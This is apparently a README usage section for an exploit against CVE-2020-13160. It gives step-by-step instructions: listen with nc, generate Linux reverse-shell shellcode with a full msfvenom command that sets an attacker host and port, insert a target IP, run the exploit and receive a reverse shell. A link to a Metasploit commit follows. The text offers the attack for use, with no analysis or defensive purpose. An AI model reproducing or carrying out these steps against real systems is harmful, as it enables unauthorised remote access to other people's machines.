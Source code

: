 ## Usage:

Python:

Step 1: use nc to listen local port（any one）

Step 2: use msfvenom to generate shellocode,eg:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.174.131 LPORT=6666 -b "\x00\x25\x26" -f python -v shellcode`

Step 3:Replace the shellcode and Target IP Address to you test

Step 4: run the exp,python CVE-2020-13160

Step 5: After a few time later a reverse shell will reback


MSF:
you can see more detail:https://github.com/rapid7/metasploit-framework/commit/08c1402be9bb350d02e00896d5367fd85708e390
